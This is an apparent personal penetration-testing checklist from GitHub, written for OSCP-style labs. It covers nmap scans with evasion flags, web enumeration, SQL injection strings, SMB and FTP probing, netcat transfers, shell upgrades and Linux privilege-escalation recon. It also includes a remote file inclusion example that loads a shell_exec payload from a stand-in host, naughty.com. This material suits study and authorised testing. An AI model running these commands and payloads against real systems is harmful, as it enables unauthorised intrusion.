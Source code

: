 <h1>PWNAGE CHECKLIST</h1>
<h2>Basic things I forget to check.</h2>

- establish vpn connectivity / confirm connectivity
- check my ip
- Scan target network
  - basic ping sweep on large range
  - select target – make note of ip in evernote
  - document everything
- Wireshark
  - Set to specific interface
  - Check how requests being handled
  - Htmlentities / escaping / str replace
  - tcp connect success or resets
  - Responses from cli connect attempts
  - Filtering
        - ``` ip-addr==192.192.192.192 ```
- Indepth nmap scan
  - ``` nmap -sC -sV -O -A -T2/3 IP-TARGET -v ```
  - SAFE SCRIPTS, SERVICE DISCOVERY, OS DETECTION, SLOWER SCAN (TO BE SAFE), VERBOSE
  - ``` nmap -sU -T3 Ip-target -v ```
  -```--source-port 100 ``` just to try evade, change to well-known port number 
- Port 80 / 443 open
  - ``` nikto -host ip-target -evasion 8 ``` (Many others check -H)
  - ``` dirb http://Ip-target -r ``` **Different wordlist perhaps**
  - Non-recursive to save time, then inspect further if necessary 
  - Try nmap ``` -–script=http-enum.nse ``` (others available)
  - Check site in browser (http/https)
   - Resolve host name if necessary (etc/hosts)
   - Cookies
   - GET / POST
   - Check source
    - Directories
    - Comments
    - Script links
    - Form methods
    - Login forms
     - Versions/names/brands etc
      - Basic sql injection
        -``` ‘or 1=1```
        -```union```
- Ports 139, 445
  - nmap enumerate if possible with scripts if nothing came up before. perhaps change scan speed to slower one
  - enum4linux
  - smbclient
    -```smbclient \\\\ip\\share```
   - try to connect to them to see if they are truly alive
   - Banner grabbing even if booted
- Port 22
  - Banner grabbing
    -```ssh root@192.192.192.192```
- Port 21
  - Banner grabbing
  -```ftp root@ip-target```
  - Try anonymous login
  - Check for version numbers
  - use searchsploit / google for known vulns


- Low priv
  - find writeable directories if /tmp or /dev/shm not available
    - ```find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;```
  - netcat 
    -```>``` output to a file
    - ```nc -nv target-ip port < filename``` (send from kali)
  - upgrade linux shell
    - ```python -c “import pty; pty.spawn(‘/bin/bash’)”```
    - ctrl+z backgrounds the shell on local box
      - then type: 
        - ```ssty raw -echo```
        - ```fg```
        - ```reset```
        - if size is an issue type:
          - ```stty size``` (returns current window size)
          - ```stty -rows 48 -columns 120``` (eg size)
- Priv esc linux
  - try ```sudo su``` or ```sudo -l```
  - if these don’t work try get kernel and distro info to look for exploits
  - ```uname -ar```
  - ```cat /etc/issue```
  - ```cat /etc/*-release```
  - ```cat /etc/lsb-release```
  - ```cat /etc/redhat-release```
  - Available programs/languages on host:
    - Perl,python etc
    - Nc,ncat,wget,curl

- Remote file inclusion (https://sushant747.gitbooks.io/total-oscp-guide/remote_file_inclusion.html)
    - Similar to local file inclusion while not hosted on the target
    - Rarer than LFI due to php.ini needs to configured for it 
    - Requres unsanitised parameter:
      - ```$theFile = $_REQUEST[“file”];```
      - ```Include($theFile . “.php”);```
    - Now in browser:
      - http://192.192.192.192/index.php?page=http://naughty.com/badfile.txt
    - Badfile.txt:
      - ```<?php echo shell_exec("whoami");?>```
      
- WAF
  wafw00f http://example.com
  
- Transferring files
  - I prefer SimpleHTTPServer to see active transfers
  -  ```python -m SimpleHTTPServer 443``` 

usefull links
https://netsec.ws/?p=331	- msfvenom,shells,tips
https://medium.com/@hakluke/haklukes-ultimate-oscp-guide-part-3-practical-hacking-tips-and-tricks-c38486f5fc97


